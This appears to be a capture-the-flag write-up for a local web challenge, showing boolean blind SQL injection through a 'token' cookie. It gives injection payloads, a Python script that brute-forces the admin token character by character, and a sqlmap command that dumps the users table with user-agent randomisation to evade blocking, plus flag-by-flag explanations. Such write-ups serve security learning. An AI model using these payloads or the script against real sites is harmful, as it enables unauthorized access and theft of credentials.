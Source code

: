 1. Find the database card first, with ID 200.
2. You will figure out that you are dealing with boolean blind SQLi after missing around with the token in the /shop.
3. Figure out the length of the token using blind sqli [token=guest_token' and (select username from users1234567890No where username ='admin' and LENGTH(token)=20)='admin'--], you will get a welcome message proving that its 20, if you put 21 you won't get a welcome message. 
4. Script to brute force the token:
```python
import sys
import requests
import urllib3
import urllib
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Proxy settings for Burp Suite or other tools
#proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Function to perform Blind SQL Injection to extract the token
def sqli_token(url):
    # Initialize the extracted token as an empty string
    token_extracted = ""

    # Assuming token length is 20 characters (can be adjusted)
    for i in range(1, 21):  
        for j in range(48, 103):  # ASCII for 0-9 and a-f (hex characters)

            # Construct the SQLi payload
            sqli_payload = f"' and (select (substring(token,{i},1)) from users1234567890No where username='admin')='{chr(j)}'--" 
            # Send the request with the SQLi payload in the cookie
            cookies = {'token': 'guest_token' + sqli_payload}
            r = requests.get(url, cookies=cookies)

            # If the response DOES contain "Welcome, guest", we found the correct character
            if "Welcome, guest" in r.text:
                token_extracted += chr(j)
                sys.stdout.write('\r' + token_extracted)
                sys.stdout.flush()
                break
            else:
                sys.stdout.write('\r' + token_extracted + chr(j))
                sys.stdout.flush()
                
    return token_extracted

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s http://www.example.com" % sys.argv[0])
        sys.exit(1)

    url = sys.argv[1]
    print("(+) Retrieving administrator token...")

    token = sqli_token(url)
    
    print("\n(+) Admin token extracted: %s" % token)

if __name__ == "__main__":
    main()
```

## Note: 
it can also be solved using sqlmap with `--random-agent` as the application blocks requests if the useragent was `sqlmap`:

```bash
sqlmap -u http://localhost:1337/shop --cookie="token=*" --random-agent --string="Welcome, guest\!" -T users1234567890No --dump --level 5 --risk 3 --purge --threads 10
```
### Explanation:
`-u http://localhost:1337/shop`:

This specifies the target URL for the SQL injection attack. In this case, sqlmap will target the /shop page of a local server running on port 1337.

`--cookie="token=*"`:

This specifies that the SQL injection attempt will be made in the token cookie. The * indicates that sqlmap should attempt to inject SQL into the value of the token cookie.

`--random-agent`:

This option tells sqlmap to randomly select a User-Agent header for each request. This is useful for evading detection by WAFs (Web Application Firewalls) or security mechanisms that block suspicious User-Agents (e.g., SQLMap or automated tools).

`--string="Welcome, guest\!"`:

sqlmap will look for this string in the HTTP response to determine whether an injection was successful. If this string appears, it confirms that the SQL query was processed and matched a specific condition, helping detect blind SQL injection. The string is likely part of a welcome message returned when the query succeeds, such as "Welcome, guest!".

`-T users1234567890No`:

This option tells sqlmap to target the users1234567890No table in the database. The flag -T stands for table, meaning that the focus of the SQL injection is specifically on this table.

`--dump`:

This tells sqlmap to dump (extract) all the data from the users1234567890No table once it successfully finds an injection vulnerability. This is used to retrieve the contents of the table, such as usernames, tokens, and admin status.

`--level 5`:

This increases the testing depth of sqlmap. Levels range from 1 to 5, with 5 being the most aggressive and thorough. Higher levels test more parameters (like HTTP headers, cookies, and POST data) and try different payloads, but it takes more time.

`--risk 3`:

This increases the risk level of the tests to the highest, 3. Risk levels range from 1 to 3, with 3 indicating that sqlmap will attempt riskier or more intrusive SQL queries (like time-based or heavy UNION queries), which might lead to server crashes or be more easily detected.

`--purge`:

This option clears previous session files created by sqlmap. It ensures that all testing starts fresh, which is helpful when re-running the same command multiple times to ensure no old results are used.

`--threads 10`:

This tells sqlmap to use 10 concurrent threads to speed up the attack. Using multiple threads allows sqlmap to send more requests at once, which can make the injection process faster, but also increases the load on the server and might make the attack more detectable.